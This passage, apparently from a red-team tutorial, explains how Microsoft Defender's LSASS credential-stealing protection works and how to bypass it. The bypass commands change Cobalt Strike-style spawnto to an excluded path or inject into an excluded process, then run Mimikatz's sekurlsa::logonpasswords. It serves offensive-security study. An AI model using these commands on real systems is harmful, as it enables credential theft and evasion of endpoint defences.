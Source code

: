 ## Credential stealing from LSASS

The "block credential stealing from LSASS" rule works in the same way as "block Office applications from injecting code into other processes", but the only monitored process is `lsass.exe`. It functions by filtering the handle returned from OpenProcess to remove read access to the process' memory, thus preventing its content from being dumped.

As with the previous rules, it can be bypassed by ensuring Mimikatz (or your tool of choice) is running from an excluded path. This can be done by changing the spawnto.

```
spawnto x64 c:\windows\system32\mrt.exe
mimikatz !sekurlsa::logonpasswords
```

Or by injecting it into an existing excluded process.

```
ps 
mimikatz 3088 x64 sekurlsa::logonpasswords
```